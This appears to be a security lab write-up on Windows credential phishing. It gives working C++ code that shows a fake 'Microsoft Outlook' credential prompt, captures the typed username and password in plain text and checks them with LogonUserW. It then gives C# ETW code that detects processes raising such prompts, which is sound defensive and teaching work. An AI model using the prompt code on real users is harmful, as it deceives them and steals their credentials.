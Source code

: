 # Credentials Collection via CredUIPromptForCredentials

## Purpose

The purpose of this lab is to twofold:

1. write some code that invokes Windows credential prompt, that would allow malware or an attacker to collect targeted user's credentials once they are on the compromised machine
2. write some ETW code that detects processes invoking credential prompts

## Stealing User Credentials

It is possible to collect user credentials with the below code:

{% code title="credentialsprompt.cpp" %}
```cpp
#include <iostream>
#include <Windows.h>
#include <wincred.h>

#pragma comment(lib, "Credui.lib")

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
    CREDUI_INFO ci = { sizeof(ci) };
    std::wstring promptCaption = L"Microsoft Outlook";
    std::wstring promptMessage = L"Connecting to spotless@offense.local";
    ci.pszCaptionText = (PCWSTR)promptCaption.c_str();
    ci.pszMessageText = (PCWSTR)promptMessage.c_str();

    WCHAR username[255] = {};
    WCHAR password[255] = {};
    DWORD result = 0;

    result = CredUIPromptForCredentialsW(&ci, L".", NULL, 5, username, 255, password, 255, FALSE, CREDUI_FLAGS_GENERIC_CREDENTIALS);
    if (result == ERROR_SUCCESS)
    {
        HANDLE newToken = NULL;
        BOOL credentialsValid = FALSE;

        credentialsValid = LogonUserW(username, NULL, password, LOGON32_LOGON_INTERACTIVE, LOGON32_PROVIDER_DEFAULT, &newToken);
        if (credentialsValid)
        {
            // valid credentials provided
        }
        else
        {
            // invalid credentials provided
        }
    }
    else if (result == ERROR_CANCELLED)
    {
        // no credentials provided
    }

    return 0;
}
```
{% endcode %}

{% hint style="warning" %}
Although in this lab I am using `CredUIPromptForCredentials` for invoking credentials prompt, you should be using [`CredUIPromptForWindowsCredentials`](https://docs.microsoft.com/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa)
{% endhint %}

If we compile and run the above code, we get a credential prompt, that captures user's credentials in plain text, which we could then save to a file or send out over the internet:

![](../../.gitbook/assets/image%20%28574%29.png)

{% hint style="info" %}
The above credential prompt can also be invoked with PowerShell cmdlet `Get-Credential`.
{% endhint %}

## Detecting Credential Prompts

As a defender, one may want to know what processes are popping these credential prompts, so that malicious ones could be detected - i.e if you are notified that suddenly some unusual process showed a prompt, it may mean that the process is infected and the machine is compromised.

Detection of programs showing credential prompts is possible with [Event Tracing for Windows \(EWT\)]() - Microsoft-Windows-CredUI provider to the rescue:

![](../../.gitbook/assets/image%20%28592%29.png)

Looking at the provider Microsoft-Windows-CredUI in ETWExplorer, we can see that it can provide consumers with events for both `CredUIPromptForCredentials` and `CredUIPromptForWindowsCredentials` invokations:

![](../../.gitbook/assets/image%20%28599%29.png)

We can create an ETW tracing session and subscribe to events from Microsoft-Windows-CredUI provider with C\# like so:

{% code title="credentialsprompt-detection.cs" %}
```csharp
# based on https://github.com/zodiacon/DotNextSP2019/blob/master/SimpleConsumer/Program.cs
using Microsoft.Diagnostics.Tracing.Session;
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace SimpleConsumer
{
    static class Programa
    {
        static void Main(string[] args)
        {
            using (var session = new TraceEventSession("spotless-credential-prompt"))
            {
                Console.CancelKeyPress += delegate {
                    session.Source.StopProcessing();
                    session.Dispose();
                };

                session.EnableProvider("Microsoft-Windows-CredUI", Microsoft.Diagnostics.Tracing.TraceEventLevel.Always);
                var parser = session.Source.Dynamic;
                parser.All += e => {
                    if (e.OpcodeName == "Start")
                    {
                        Console.WriteLine($"{e.TimeStamp} > Credential Prompt detected in {Process.GetProcessById(e.ProcessID).ProcessName}.exe (PID={e.ProcessID})");
                    }
                };
                session.Source.Process();
            }
        }
    }
}
```
{% endcode %}

## Demo

Below shows RogueCredentialsPrompt.exe and Powershell.exe invoking Windows credential prompts and our simple consumer program detecting that activity:

![](../../.gitbook/assets/creduipromptforcredentials-detection.gif)

## References

{% embed url="https://ired.team/miscellaneous-reversing-forensics/etw-event-tracing-for-windows-101" caption="" %}

{% embed url="https://github.com/zodiacon/DotNextSP2019/" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-creduipromptforcredentialsa" caption="" %}

